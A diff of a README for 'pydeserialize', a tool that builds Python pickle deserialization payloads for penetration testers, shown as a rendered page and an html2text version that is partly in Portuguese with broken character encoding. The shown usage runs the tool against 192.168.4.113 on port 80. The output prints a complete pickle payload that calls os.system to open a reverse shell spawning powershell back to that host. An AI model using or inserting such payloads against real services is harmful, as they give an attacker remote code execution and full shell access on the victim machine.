  ```yaml
   -p PORT               Insert port
   -e {b64,shell,urlencode,hex} Insert encoding
   -o {Windows,Linux}    Insert operational system
@@ -62,13 +64,13 @@
 pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell
 
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|  
-     v0.0.9 - @joaoviictorti
+     v0.1.0 - @joaoviictorti
 
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
 ```
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -1,35 +1,36 @@
 [https://capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=header] [![Typing SVG](https://
 readme-typing-svg.herokuapp.com/
 ?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)]
 (https://git.io/typing-svg)
-   *** Tool for testing python insecure deserialization vulnerabilities ***
-                 Features â¢ Install â¢ How_to_use â¢ Usage
+  *** pydeserialize testar vulnerabilidades de desserializaÃ§Ã£o insegura do
+                                  python ***
+ CaracterÃ­sticas â¢ InstalaÃ§Ã£o â¢ Forma_de_utilizaÃ§Ã£o â¢ Detalhes â¢
+                               Executando_revmap
 --- O pydeserialize Ã© uma ferramenta que gera payloads de desserializaÃ§Ã£o
 insegura em python. Possui uma funcionalidade que faz encode das payloads
 desejadas e dessa forma sendo simples e otimizada para velocidade.
 pydeserialize Ã© construÃ­do para fazer apenas uma coisa - gera payloads de
 desserializaÃ§Ã£o insegura + encodes e faz isso muito bem. Projetei o
 `pydeserialize` para cumprir todas as responsabilidades para gera payloads e
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads para explora
 vulnerabilidades de desserializaÃ§Ã£o insegura em python # Forma de
 utilizaÃ§Ã£o ```sh pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
-pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
-para a ferramenta. Aqui estÃ£o todos os switches que ele suporta: ```yaml _ _ _
-_ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_| _| |
-.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.9
-- @joaoviictorti options: -h, --help show this help message and exit -ip IP
-Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -o
-{Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` # Detalhes ```yaml _
+_ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_|
+_| | .'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___|
+v0.1.0 - @joaoviictorti options: -h, --help show this help message and exit -ip
+IP Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -
+o {Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install pydeserialize
 ``` # Executando pydeserialize ```console pydeserialize -ip 192.168.4.113 -p 80
```